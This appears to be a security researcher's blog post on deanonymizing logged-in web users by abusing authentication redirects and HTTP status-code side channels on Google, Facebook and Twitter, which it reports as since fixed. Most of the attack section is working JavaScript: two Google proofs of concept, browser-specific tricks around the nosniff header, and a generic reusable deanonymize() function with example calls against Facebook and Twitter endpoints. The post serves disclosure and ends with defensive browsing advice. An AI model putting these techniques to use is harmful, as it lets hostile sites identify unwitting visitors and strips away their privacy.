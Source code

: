 ```yaml
---
layout: post
title: Novel Techniques for User Deanonymization Attacks
---
```

_**TL;DR**: By abusing auth-based redirections and user-specific URIs on modern web applications, an attacker can easily identify and deanonymize any given predefined group of users across the web._

Frankly, this is not really the first time I write about this kind of issues; I first drew attention to this in a thread I initially posted on the [webappsec mailing list](http://www.webappsec.org/lists/websecurity) almost a year ago<a href="#1">[1]</a>, but for some reason, that didn't receive enough attention. Hopefully, the implications I'm going to demonstrate in this writeup would be sufficient for people to start taking the appropriate precautions against this kind of privacy threats out there!

Well, it all started with me logging into my Gmail account as usual, just to notice a redirection being made to a URI specified in a `GET` parameter named "___continue___" with my email address in a second `GET` parameter named "___email___". Here's our interesting endpoint:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=<URI>&email=<email_address>
{% endhighlight %}
The fun starts when you tamper the value of that "___email___" param, as when you do that, you wouldn't get redirected to the URI specified in the "___continue___" param, but instead, you get redirected to a Gmail re-authentication page! While if you just tamper the value of the "___continue___" param, you still get redirected as long as it's a "[*.google.com](#)" endpoint and the "___email___" param does point to your own email address.

So far, so good. Now, the question is, how could an attacker maliciously exploit such behavior? "Deanonymization" is the word! Here's how:


First, we get the URI of any embeddable resource hosted on "[*.google.com](#)"; a small icon/image would typically do the job. Then we set that "___continue___" param to the URI of that resource, and we set the "___email___" param to the email address of a given target we want to deanonymize (say "`target@gmail.com`"). Like this:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=target@gmail.com
{% endhighlight %}
Now, we have an endpoint that points to an image resource when the email address of the current Gmail user is "`target@gmail.com`" but points to a webpage otherwise! Cool, here's a sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=';
    var img = new Image();
    img.src = endpoint + email;
    window.onload = function() {
        if (img.height === 213 && img.width === 171) {
            alert('Deanonymized successfully!');
        }
    };
    document.documentElement.appendChild(img);
}('target@gmail.com'));
{% endhighlight %}
Note that I had reported this issue to the Google security team and it has been fixed a long time ago. ...end of story? Not so fast!

They initially pushed a short-term fix by implementing a regex-based blacklist (on top of their permissive whilelist), where they don't generally allow redirections to any endpoint that ends with a file extension such as "`.jpg`", "`.js`", "`.ico`", et al! Which basically means, if you can find an open redirect on "[*.google.com](#)" or even some endpoint that points to an embeddable resource but doesn't end with a file extension, you still have a working exploit! Great, but what if you are just not lucky enough to find something like that? Oh, no worries, the fun never ends:

Well, we know that as long as it's a valid "[*.google.com](#)" endpoint, a redirection shall happen; all we need here is another distinctive behavior that depends on something else other than embeddable resources. What possibly could that be? Oh, HTTP status codes come to the rescue! Here it goes:

What happens if we simply use an endpoint that points to a non-existent resource? Obviously, we get redirected to an error page, and an error page typically returns a "`404 Not Found`" status code. Yet another sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/404&email=';
    var script = document.createElement('script');
    script.src = endpoint + email;
    script.onerror = function() {
        alert('Deanonymized successfully!');
    };
    document.documentElement.appendChild(script);
}('target@gmail.com'));
{% endhighlight %}
Oops! ...works like a charm (as of now, they fixed this by disallowing redirections on `GET` requests altogether) but with one little problem, Google makes use of the "`X-Content-Type-Options: nosniff`" header which tells a browser not to do content type sniffing, disallowing embedding resources that don't return the right MIME type. Luckily, Firefox [doesn't seem to respect that header](https://bugzilla.mozilla.org/show_bug.cgi?id=471020) while working with script elements, but Chrome does respect it! Well, not exactly! It turns out that Chrome doesn't respect it while working with external stylesheets and proceeds to interpret the resource anyway:
<br /><a href="/images/ChConsole.png" target="_blank"><img class="innerImg" src="/images/ChConsole-thumb.png" alt="Chrome console"></a><br />
So, all we have to do is use a link element instead of a script element when running on Chrome. Fair enough, here's one single generic exploit that combines all of these tricks together to deanonymize whoever you want, on whichever browser he uses, against whatever webapp you please:
<div style="font-size: 75%">

{% highlight javascript linenos %}
/**
 * Deanonymize a predefined group of users, given sufficient arguments.
 * @param attackMethod {string}, the method of the attack (either 'redirection' or 'statusCode').
 * @param endpoint {string}, the vulnerable endpoint with the user ID parameter last.
 * @param idList {array}, a list of the targeted users' IDs.
 * @param callback {function}, a callback function to pass all results to.
 * @return {array}, an ordered output array with boolean values.
 */
function deanonymize(attackMethod, endpoint, idList, callback) {
    var elNodes, testFn;
    var output = [];
    // Register a new cross-browser event listener.
    var addListener = (function() {
        return (window.addEventListener) ? window.addEventListener :
            // For IE8 and earlier versions support.
            function (evName, callback) {
                this.attachEvent('on' + evName, callback);
            };
    }());
    /**
     * Create new DOM elements.
     * @param tagName {string}, elements' tag name.
     * @return {array}, an array of DOM nodes.
     */
    var createElements = function(tagName) {
        var i, l, el;
        var elNodes = [];
        for (i = 0, l = idList.length; i < l; i++) {
            el = document.createElement(tagName);
            if (tagName !== 'link') {
                el.src = endpoint + idList[i];
            } else {
                el.href = endpoint + idList[i];
                el.rel = 'stylesheet';
            }
            if (tagName !== 'img') {
                el.onerror = function() {
                    this.parentElement.removeChild(this);
                };
            }
            elNodes.push(el);
            document.documentElement.appendChild(el);
        }
        return elNodes;
    };
    /**
     * Conduct tests in regard to a given function.
     * @param testFn {function}, a test function.
     * @return void.
     */
    var assess = function(testFn) {
        var i, l;
        for (i = 0, l = elNodes.length; i < l; i++) {
            if (testFn(elNodes[i])) {
                output.push(true);
            } else {
                output.push(false);
            }
        }
        callback(output);
    };
    if (attackMethod === 'redirection') {
        elNodes = createElements('img');
        /**
         * Test if an image node was loaded or not.
         * @param imageNode {object}, a DOM image node.
         * @return {boolean}.
         */
        testFn = function(imgNode) {
            if (imgNode.naturalHeight !== 0 && imgNode.naturalWidth !== 0) {
                return true;
            }
            return false;
        };
    } else if(attackMethod === 'statusCode') {
        elNodes = (/chrome/i.test(navigator.userAgent)) ? createElements('link') :
                           createElements('script');
        /**
         * Test if a given element is a child of `documentElement` or not.
         * @param el {object}, a DOM element.
         * @return {boolean}.
         */
        testFn = function(el) {
            if (el.parentNode !== document.documentElement) {
                return true;
            }
            return false;
        };
    }
    addListener.call(window, 'load', function() { assess(testFn); });
}
{% endhighlight %}

</div>

The story doesn't end here either, these issues are too widespread than you can imagine! I'm talking about Facebook, Twitter and the list goes on! Here's a couple of variations, just to mention a few:

As for Facebook, you could have simply deanonymized a bunch of users based on their profile IDs (using the generic exploit above) by doing something like:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://www.facebook.com/feed/export/service_redirect.php?service=1&id=', [10001, 10003], alert);
{% endhighlight %}
Now, if any of the users whose profile ID is one of these (10001, 10003) visits our website, he'll get immediately deanonymized! (of course that's fixed now.)

And as for Twitter, you could do it using the ID of any tweet(s) that belongs to your target(s). Like this:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://twitter.com/intent/retweet?tweet_id=', [10001, 10003], alert);
{% endhighlight %}
But why a tweet ID in particular? That's because I couldn't find any vulnerable user-specific endpoints there! So, alternatively, we exploit the fact that a twitter user cannot retweet his own tweets (also fixed)!

# Conclusion:
The modern web continues to prove itself as a very compromised zone; from timing attacks to nasty techniques like that, your identity and your data are, one way or another, prone to be exposed anytime as you navigate on. Do NOT browse while being authenticated to other web applications (or use <a href="https://www.requestpolicy.com" target="_blank">RequestPolicy</a> if possible). Do NOT allow scripts on untrusted websites (<a href="https://noscript.net">NoScript</a> is always a good idea; [AnonTab](/projects/#AnonTab) too!).

# References:
<a name="1" style="color: black">[1]: </a><a href="https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html" target="_blank">https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html</a><br />
[2]: <a href="https://hackerone.com/reports/44814" taget="_blank">https://hackerone.com/reports/44814</a>
